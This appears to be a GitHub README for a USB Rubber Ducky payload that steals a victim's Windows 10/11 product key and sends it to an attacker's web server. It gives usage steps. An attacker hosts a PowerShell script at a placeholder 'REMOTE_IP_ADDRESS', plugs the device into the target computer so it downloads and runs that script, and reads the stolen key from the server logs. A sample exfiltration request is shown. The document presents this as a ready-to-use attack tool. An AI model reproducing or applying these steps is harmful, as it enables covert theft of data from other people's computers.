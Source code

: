 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Windows+Product+Duckey+🦆🔑&center=true&size=25">
  </a>
</h1>

## Description

This payload exfiltrate the target's Windows product key to a remote server. *Only works on Windows 10,11.*

## Demo

<h2 align="center">
  <img src="https://raw.githubusercontent.com/PlumpyTurkey/Ducky-Utilities/main/Payloads/Windows-Product-Duckey/demo.gif">
</h2>

Here we can see that the attacker's server received the following request:
```
GET /?duckey=A1B2C-3D4E5-F6G6F-5E4D3-C2B1A HTTP/1.1
```
*Which contains the target's Windows product key!*

## Usage

To use this script, follow these steps:

1. Set up a website on your server or a computer in the same network as the target's computer. You can use Python to do this by running the following command:
```
python -m http.server 80
```
2. Download the payload.txt and .ps1 files and modify them to include the IP address of your server.
3. Move the modified .ps1 file to the root directory of your website, so it is downloadable from this address:
```
http://REMOTE_IP_ADDRESS/.ps1
```
4. Plug in your device that is configured with the modified payload.txt to the target's computer.
5. Wait for the target to download and execute the .ps1 file from your website. You can track the target's IP address and Windows product key by checking your website logs.



***Note**: This script is designed to send the results to a specific server, so you don't have to rely on any file sharing services. Additionally, you can easily adapt it to work with encrypted sites.*
